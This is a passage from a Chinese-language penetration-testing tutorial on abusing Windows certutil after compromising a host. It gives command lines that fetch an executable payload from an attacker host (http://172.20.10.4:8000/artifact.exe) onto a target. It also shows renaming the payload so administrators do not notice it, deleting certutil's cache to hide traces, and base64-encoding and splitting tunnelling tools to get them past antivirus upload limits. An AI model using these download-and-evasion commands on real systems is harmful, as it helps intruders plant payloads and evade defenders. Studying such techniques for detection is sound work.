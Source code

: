 另外一种方法就是使用 windows 自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```
certutil & certutil -urlcache -split -f http://ip/artifact.execertutil | certutil -urlcache -split -f http://ip/artifact.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwMAE066A1FHZT2rUia1aFyc0ng2ShPia58uNaSlxtlibUU0nFUo7POjSoA/640?wx_fmt=png)

这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成 exe

```
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDw2iciaRnasE5ryuhNfxj7l4x4C6WLrd0bX8GKRUkcibria9cEIN6tuj1Qbw/640?wx_fmt=png)

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```
certutil -urlcache *
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwUMgBVuWIibj4C8oa41hVib58H2zMu0jA5kRuB57cqicr4ZKZ6MWE7DGdQ/640?wx_fmt=png)

执行删除缓存

```
certutil -urlcache * delete
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwiaqSfsLiciczMMwsBIjr46BUqkibDaVbazcRX92dg8sYvOSvmAxkcrbIwg/640?wx_fmt=png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦

```
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

certutil base64 加解密
===================

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwCxLcCv8gMFvVuZT26wrvIBYLqDQeia3DoYGzYDkOI7qpJqPgRVlsWoA/640?wx_fmt=png)

这里我上传图片测试能够上传成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwaUcU5JyAkye7EYLABMEXB8lFtkswwq74mPiaMUsS1kavibeMt0p7eyhg/640?wx_fmt=png)

本地也能够下载下来，但是就是到靶机上下载不下来，这时候就可以使用`certutil`的`encode`和`decode`进行加解密。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwK8MPrXF9QMN3dD0H4IfA8DLJcDeEBHegQnTfK7LxOxaUZakobF7NGA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwP4D3jjBo4GHD4wZcbVdxZxOvhz7LUTAP8vVNoQriakvaurZ9TUDdJiag/640?wx_fmt=png)

`certutil`在内网渗透中的另外一个用处就是进行 base64 编码。我们知道在内网中需要用到内网代理，一般都会用到 nps 或者 frp，但是如果碰到有杀软限制上传文件大小的情况，这时候我们就可以使用先用 encode 编码分块上传再使用 decode 解密。

使用`encode`进行 base64 编码，然而大小还变大了，这里就可以考虑分成多块传输后再进行整合
